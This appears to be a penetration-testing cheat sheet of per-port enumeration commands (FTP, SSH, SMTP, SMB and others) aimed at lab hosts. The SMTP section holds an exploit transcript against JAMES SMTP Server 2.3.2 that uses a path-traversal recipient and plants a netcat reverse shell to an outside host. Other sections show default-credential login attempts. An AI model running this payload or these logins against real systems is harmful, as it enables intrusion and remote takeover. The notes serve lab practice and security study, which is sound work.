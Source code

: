 FTP-21:
----------------
       ftp 10.10.10.10
       username:anonymous
       password:password
       
       
       ftp 10.10.10.10
       username:password:)
       password:password       psy shell
       
SSH-22:
------------------
       ssh user@10.10.10.10
       ssh -i id_rsa user@10.10.10.10
       ssh -L 5001:127.0.0.1:5009 user@10.10.10.10
       ssh -oKexAlgorithms=diffie-hellman-group1-sha1 -p 22022 sunny@10.10.10.76
       ssh permission 400 or 600
       
TELNET-23:
-------------------
       telnet 10.10.10.10  
       telnet 10.10.10.10 53 (Banner grabbing)
       
SMTP-25:
-------------------
       220 solidstate SMTP Server (JAMES SMTP Server 2.3.2) ready Mon, 30 Dec 2019 17:10:56 -0500 (EST)
       EHLO bla.bla
       250-solidstate Hello bla.bla (10.10.14.12 [10.10.14.12])
       250-PIPELINING
       250 ENHANCEDSTATUSCODES
       MAIL FROM: <'random@random.com>
       250 2.1.0 Sender <'random@random.com> OK
       RCPT TO: <../../../../../../../../etc/bash_completion.d>
       250 2.1.5 Recipient <../../../../../../../../etc/bash_completion.d@localhost> OK
       DATA
       354 Ok Send data ending with <CRLF>.<CRLF>
       FROM: bla.bla
       '
       /bin/nc -e /bin/bash 10.10.14.12 1234
       .
       250 2.6.0 Message received
       quit
       
      
DNS-53:
--------------------------------
       nslookup
       server 10.10.10.10
       10.10.10.10
       
       
       host -l hack.htb 10.10.10.10
       
HTTP-80:
-----------------------------------
       CMS OR CF OR user,help,admin,robots.txt
       source code and page info(look into certificates foremail id)
       dirbuster or gobuster or wfuzz
       burp suite 
       Windows or Linux
       
       
Kerberos-88:
------------------------------------




POP3-110:
------------------------------------
       nc 10.10.10.10 110
       USER  mindy
       PASS password
       
       telnet 10.10.10.10   110
       username:
       root
       password:
       root
       
RPCBIND-111:
-------------------------------------
       rpcbind -p 10.10.10.10
       
MSRPC-135:
-------------------------------------
       NMAP SCRIPTS
       METASPLOIT
SMB(139 OR 445):
-----------------------------------
       smbclient -L 10.10.10.10
       smbmap -R -H 10.10.10.10
       enum4linux -a 10.10.10.10
       rpcclient -U "" 10.10.10.10

HTTPS-443:
---------------------------------------------
       CMS OR CF OR user,help,admin,robots.txt
       source code and page info(look into certificates foremail id)
       dirbuster or gobuster or wfuzz
       burp suite 
       Windows or Linux
       
       
       
